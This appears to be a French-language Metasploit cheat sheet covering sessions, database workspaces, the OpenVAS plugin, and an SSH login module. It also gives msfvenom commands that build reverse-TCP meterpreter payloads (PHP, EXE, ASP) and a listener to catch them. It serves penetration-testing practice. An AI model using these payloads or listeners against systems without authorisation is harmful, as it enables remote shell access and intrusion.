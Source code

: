 metasploit
==========

## Commandes de base
### Gestion sessions
Pour lister les sessions en cours :
```
msf> sessions -l
```

Pour basculer sur une session existante :
```
msf> sessions -i <id_session>
```

Pour passer une session en arrière plan :
```
meterpreter> background
```

### Listener
Lancer un listener en attente d'un reverse tcp meterpreter windows :
```
msf> use multi/handler
msf> set payload windows/meterpreter/reverse_tcp
msf> set LHOST <ip_kali>
msf> set LPORT <port_ecoute>
msf> exploit -j
```

## Base de données
On va travailler avec *PostgreSQL* qui est la base de données par défaut dans *metasploit*.

### La première fois
Il faut d'abord lancer *PostgreSQL* puis initialiser la base de données pour *metasploit* :
```
# systemctl start postgresql
# msfdb init
```

Cela crée une base de données `msf` et un utilisateur `msf`.
Au démarrage de `msfconsole`, *metasploit* se connectera automatiquement à cette base de données.
On peut vérifier qu'on est bien connecté :
```
msf> db_status
```

### Workspaces
On peut ensuite travailler avec des *workspaces* pour ranger ses différents scans.

Pour lister les *workspaces* disponibles :
```
msf> workspace
```

Pour sélectionner un *workspace* :
```
msf> workspace <workspace_name>
```

Pour créer un *workspace*, on utilise l'option `-a` et pour supprimer un *workspace* `-d`.
Plus d'information avec l'option `-h`.

### Importation de données
Pour importer des données dans la base :
```
msf> db_import <filename_to_import>
```

Pour faire un scan `nmap` et importer directement les résultats :
```
msf> db_nmap <...classical_nmap_options...>
```

### Lire des données
Pour voir les services scannés :
```
msf> services
```

Pour voir les hôtes scannés :
```
msf> hosts
```

On peut ajouter des éléments à afficher :
```
msf> hosts -c address,os_flavor,svcs,vulns
```

Pour voir les vulnérabilités trouvées :
```
msf> vulns
```

## OpenVAS dans Metasploit
Lancer d'abord une instance `OpenVAS`. Par défaut, l'interface web écoute sur le port 9392 et le scanner sur le port 9390.

Pour lancer le plugin `OpenVAS` dans `metasploit` :
```
msf> load openvas
```

On se connecte à l'instance `OpenVAS` :
```
msf> openvas_connect <login> <password> 127.0.0.1 9390 ok
```

Pour lister les targets disponibles :
```
msf> openvas_target_list
```

Pour créer une nouvelle target :
```
msf> openvas_target_create <name> <ip> <comment>
```

Pour lister les configurations de scan possibles :
```
msf> openvas_config_list
```

Pour créer une task :
```
msf> openvas_task_create <name> <comment> <config_id> <target_id>
```

Pour lister les tasks :
```
msf> openvas_task_list
```

Pour lancer un scan :
```
msf> openvas_task_start <id>
```

Pour lister les rapports disponibles :
```
msf> openvas_report_list
```

Pour afficher les différents types de rapport disponibles :
```
msf> openvas_format_list
```

Pour télécharger un rapport :
```
msf> openvas_report_download <report_id> <format_id> <path> <report_name>
```

Pour importer un rapport dans metasploit :
```
msf> openvas_report_import <report_id> <format_id>
```

## Meterpreter
### Ouvrir un shell meterpreter à partir d'une connexion ssh
On peut utiliser le module `ssh_login` :
```
msf > use auxiliary/scanner/ssh/ssh_login
msf auxiliary(ssh_login) > set RHOSTS 10.10.10.10
msf auxiliary(ssh_login) > set USERNAME foo
msf auxiliary(ssh_login) > set PASSWORD bar
msf auxiliary(ssh_login) > exploit
msf auxiliary(ssh_login) > sessions -u 1
```

## Payloads
### php (meterpreter)
Pour créer un payload *php/meterpreter* en reverse tcp sur le port 4444 :
```
# msfvenom -p php/meterpreter/reverse_tcp LHOST=IP_KALI LPORT=4444 -f raw > payload.php
```
### windows exe (meterpreter)
```
# msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP_KALI LPORT=4444 -f exe > shell.exe
```
### windows asp (meterpreter)
```
# msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP_KALI LPORT=4444 -f asp > shell.asp
```

## Sources
* https://www.sans.org/security-resources/sec560/misc_tools_sheet_v1.pdf
* https://www.ehacking.net/2011/11/how-to-use-openvas-in-metasploit.html
* https://www.offensive-security.com/metasploit-unleashed/using-databases/
* https://netsec.ws/?p=331
* https://dotweak.com/fr/2019/08/12/comment-creer-un-payload-metasploit-60545791/
